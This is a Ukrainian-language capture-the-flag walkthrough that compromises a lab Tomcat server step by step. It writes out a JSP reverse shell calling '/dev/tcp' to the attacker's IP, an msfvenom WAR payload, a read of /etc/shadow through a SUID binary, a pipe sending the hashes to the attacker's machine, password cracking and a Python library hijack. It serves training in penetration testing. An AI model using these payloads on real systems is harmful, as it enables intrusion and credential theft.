







### **Крок 1: Розвідка мережі та сканування портів (Enumeration)**
```sh
netdiscover -r 192.168.160.0/24
```


```sh
nmap -sC -sV -Pn -p- 192.168.160.233
```
**Результат**:  
- **Port 22**: SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)).
- **Port 80**: HTTP (Apache httpd 2.4.41 (Ubuntu).  
- **Port 8080**: HTTP (Apache Tomcat 9.0.53).  


---

### **Крок 2: Веб-розвідка та пошук прихованих директорій**
Відкриваємо **IP-адресу** цільової машини у браузері та бачимо **простий веб-сайт**.
```plaintext
http://192.168.160.233:80
```
**Результат**:
Завантажилася типова сторінка сервера Apache.


Виконаємо перебір каталогів на сервері **Apache** (порт 80, за замовчуванням) за допомогою команди **dirb**:
```sh
dirb http://192.168.160.233/ -X .php,.zip
```
**Результат**:
Жодних підозрілих файлів виявлено не було.


Відкриємо у браузері на порті **8080** IP-адресу цільової машини. Ми побачимо типову сторінку за замовчуванням сервера **Tomcat**.
```plaintext
http://192.168.160.233:8080
```
**Результат**:
Ми отримали просту сторінку сервера **Tomcat**, на якій немає нічого підозрілого.


Виконаємо перебір каталогів на сервері **Tomcat** (порт 8080) за допомогою команди **dirb**:
```sh
dirb http://192.168.160.233:8080/ -X .php,.zip
```
**Результат**:
В одному з каталогів виявлено файл резервної копії **backup.zip**.


---

### **Крок 3: Дослідження файлу резервної копії backup.zip**

Завантажимо **zip-файл** за допомогою **wget**: 
```sh
wget http://192.168.160.233:8080/backup.zip
```
**Результат**:
Успішно завантажено файл резервної копії **backup.zip**.


Виконаємо спробу розпакувати файл **backup.zip** за допомогою **unzip**:
```sh
unzip backup.zip
```
**Результат**:
Файл резервної копії **backup.zip** захищений паролем.


Встановимо **fast password cracker — fcrackzip** за допомогою команди:
```sh
sudo apt install fcrackzip
```
**Результат**:
Файл для взлому архівних паролів встановлено.


Спробуємо підібрати пароль до архіву **backup.zip**, використовуючи текстовий файл **rockyou.txt** зі списком ключових слів.
Застосуємо параметри
    • за домогою ключа **-D** вкажемо режим словника; у цьому режимі **fcrackzip** зчитуватиме паролі з файлу, який повинен містити один пароль на рядок і має бути відсортований в алфавітному порядку; 
    • ключ **-p** вказує шаблон для підбору пароля; 
    • ключ **-u** інформує про те, що потрібно використовувати команду unzip для перевірки пароля. 
Використаємо **fcrackzip** зі списком слів **rockyou.txt** для злому пароля:
```sh
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
ls
```
**Результат**:
Ми отримали пароль **@administrator_hi5**.


Розпакуємо файл backup.zip і переглянемо його вміст:
```sh
unzip backup.zip
```
**Результат**:
Ми отримали список файлів з архіву **backup.zip**


---

### **Крок 4: Дослідження службових файлів Tomcat**

Перевіримо вміст **XML-файлу** користувачів **Tomcat**. Виконаємо команду: 
```sh
cat tomcat-users.xml
```
**Результат**:
Файл **tomcat-users.xml** містить облікові дані:
- Користувач: **admin**
- Пароль: **melehifokivai**


---

### **Крок 5: Створення зворотньої оболонки для Tomcat**

Визначимо **IP адресу** нашої системи. Виконаємо команду:
```sh
ip a
```
**Результат**:  
**IP** адреса нашої системи **192.168.160.198**.


Створимо war-файл за допомогою **msfvenom**. Використаємо параметри
- **LHOST**: IP-адреса нашого інструменту, використаємо знайдену **192.168.160.198**; 
- **LPORT**: порт прослуховування на машині інструменту, виберемо, наприклад, **4321**; 
- Формат виводу: **WAR** — архів веб-застосунків. 
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST= 192.168.160.198 LPORT= 4321 -f war -o revshell.war
ls
```
**Результат**:  
Зворотня оболонка **revshell.war** створена.


---

### **Крок 6: Завантаження зворотньої оболонки на цільовий комп'ютер**

Використовуючи виявлені облікові дані **admin:melehifokivai**, виконаємо вхід в програму **Tomcat Manager**. Зайдемо у браузері на порт **8080** цільової машини **192.168.160.233**.
Клікнемо на кнопку **manager app**, введемо облікові дані та залогуємося за допомогою **sign in**
- Користувач: **admin**
- Пароль: **melehifokivai**


**Результат**:
Ми отримали доступ до панелі керування аплікаціями на вебсервері **Tomcat**.


Знайдемо на сторінці керування розділ із завантаженням нових **WAR** файлів. Клікнемо **Browse**


Завантажимо створений на попередньому кроці **revshell.war**. Виберемо з папки home файл **revshell.war**


За допомогою кнопки **Deploy** розгорнемо аплікацію зворотньої оболонки на сервері **Tomcat**

**Результат**:
Наша аплікація **revshell.war** розгорнута на цільовому сервері **Tomcat** і доступна по **URL http://192.168.160.233:8080/revshell**


---

### **Крок 7: Дослідження цільової системи на наявність конфіденційних файлів у профілях користувачів**

Для аналізу мережевих з'єднань застосуємо команду **netcat**. Використаємо параметри
- ключ **-l** задає режим прослуховування разом із номером порту; 
- ключ **-n** означає не виконувати пошук портів та працювати з **IP-адресами** безпосередньо, без використання **DNS**; 
- ключ **-p** вказує на номер порту; 
- ключ **-v** задає детальний режим виводу.

Виконаємо команду **netcat**, щоб прослухати зворотну оболонку:
```sh
nc -lnvp 4321
```
**Результат**:
Утиліта **netcat** розпочала прослуховування запитів на порті **4321** нашої системи


Зайдемо у браузері на ресурс **/revshell/** цільової машини **192.168.160.233** на порті **8080**.
**Не спрацьовує**.

Створив файл **index.jsp** зі вмістом
```plaintext
<%@page import="java.lang.*,java.io.*,java.net.*"%>
<%
    String host = "192.168.160.198";
    int port = 4321;
    Process p = new ProcessBuilder("/bin/bash", "-c", "bash -i >& /dev/tcp/" + host + "/" + port + " 0>&1").start();
%>
```
Запакував цей один файл в архів **.war** за допомогою утиліти **zip**
```sh
zip rev.war index.jsp
```


Після запуску корисного навантаження ми отримали оболонку. Для покращення середовища оболонки використаємо **Python**:
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
**Результат**:
Ми отримали доступ до оболонки **bash** на цільовому комп'ютері. Це дозволить нам розпочати досліджувати систему на наявність конфіденційних файлів та потенційних шляхів для підвищення привілеїв.

Перевіряємо домашні каталоги користувачів
```sh
cd /home
ls
cd jaye
ls
cd /home/randy
ls
```
**Результат**:
У домашній папці користувача **randy** ми знайшли цікаві файли **user.txt** та **note.txt**.


Розглянемо вміст файлів **user.txt** та **note.txt**. Виконаємо команди:
```sh
cat user.txt
cat note.txt
```
**Результат**:
З файлу **user.txt** ми отримали прапорець, який разом із повідомленням із **note.txt**, дає нам підказки для подальших дій.
```sh
cat user.txt
```
```plaintext
ca73a018ae6908a7d0ea5d1c269ba4b6
```


---

### **Крок 8: Дослідження цільової системи на наявність конфіденційних файлів у профілях користувачів**

Спробуємо увійти в систему як користувач **jaye**. Використаємо той самий пароль **melehifokivai**. Виконаємо команду:
```sh
ssh jaye@192.168.160.233
```
**Результат**:
Ми успішно ввійшли в систему через **SSH**.


Залогувавшись використовуємо **Python** для отримання повністю інтерактивної оболонки. Виконаємо команду:
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
**Результат**:
Ми отримали доступ до оболонки **bash** на цільовому комп'ютері від імені користувача **jaye**.


Дослідимо файлову систему користувача **jaye**. Виконаємо команди:
```sh
ls
cd Files
ls -lah
```


Використаємо команду **look** для отримання хешу паролів всіх користувачів системи. Параметри командної стрічки виберемо такі
- скористаємося змінною **LFILE="file to read"** для визначення файлу; 
- рядок з префіксом залишимо порожній **('')**, щоб програма **look** вивела усі знайдені рядки.

```sh
./look
LFILE=/etc/shadow
./look '' $LFILE
```
**Результат**:
Ми отримали захешовані паролі користувачів системи.


Збережемо захешовані паролі користувачів у файлі **hashall.txt** на нашому інструменті **Kali**. Виконаємо схожу команду та перенаправимо вивід у домашній каталог користувача **kali**. При запиті задамо підтвердження yes та введемо пароль користувача **kali**:
```sh
./look '' $LFILE | ssh kali@192.168.160.198 "cat >> ~/hashall.txt"
```


**Отримую помилку.**
Створюю файл через **UI** і копіюю хешовані паролі трьох користувачів:
```plaintext
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```
Скопіюємо з файлу **hashall.txt** рядок з даними користувача **randy**. Збережемо результат у файл з назвою **hash.txt**:
```sh
cat hashall.txt | grep randy > hash.txt
cat hash.txt
```
**Результат**:
У файлі **hash.txt** збережено інформацію про користувача **randy**.



---

### **Крок 9: Визначення пароля користувача randy**

Щоб зламати хеш код використаємо інструмент для злому паролів **john**. Виконаємо команду з ключем допомоги:
```sh
john --help
```
Розглянемо параметри командної стрічки
- синтаксис команди: **john [OPTIONS] [PASSWORD-FILES]** 
- ключ: **--wordlist[=FILE] --stdin** означає використовувати режим списку слів, прочитати слова з файлу або з **stdin**.
Для пришвидшення операції використаємо набір слів з файлу **/usr/share/wordlists/rockyou.txt**. Перевіримо існування файлу:
```sh
ls /usr/share/wordlists
```
Для зламу хеш коду виконаємо команду вказавши список слів за допомогою параметра **--wordlist**:
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Операція може зайняти тривалий час, від кількох до кільканадцять годин в залежності від потужності Вашої системи. Клікаючи в консолі довільну клавішу, за винятком **"q" та "Ctrl+C"**, ми зможемо відстежувати статус виконання операції.

**Результат**:
Ми отримали пароль корситувача **randy: 07051986randy**



---

### **Крок 10: Дослідження потенційних шляхів для підвищення привілеїв**

Використаємо зламаний аккаунт користувача randy щоб залогуватися у досліджувану систему по **SSH**. Виконаємо команду:
```sh
ssh randy@192.168.160.233
```
**Результат**:
Ми ввійшли у цільову систему використавши пароль **07051986randy** користувача **randy**.



Перевіримо наявність привілеїв облікового запису за допомогою команди:
```sh
sudo -l
```


Розглянемо вміст файлу **/home/randy/randombase64.py**. Виконаємо команду:
```sh
pwd
cat randombase64.py
```
**Результат**:
Cкрипт **randombase64.py** імпортує модуль з назвою **base64**. Це говорить про потенційну можливість захоплення бібліотеки **Python**. Ми можемо модифікувати бібліотеку **base64.py** для виконання довільних команд з привілеями **root**.



Щоб отримати шлях до файлу **base64.py** використаємо команду **locate**:
```sh
locate base64.py
```
**Результат**:
Ми отримали повний шлях до файлу **/usr/lib/python3.8/base64.py**



Розглянемо права доступу до файлу **/usr/lib/python3.8/base64.py**. Виконаємо команду:
```sh
ls -al /usr/lib/python3.8/base64.py
```
**Результат**:
Доступ до файлу **/usr/lib/python3.8/base64.py** має користувач та група **root**. Отже, процес, запущений від імені **base64.py**, отримає права **root**.



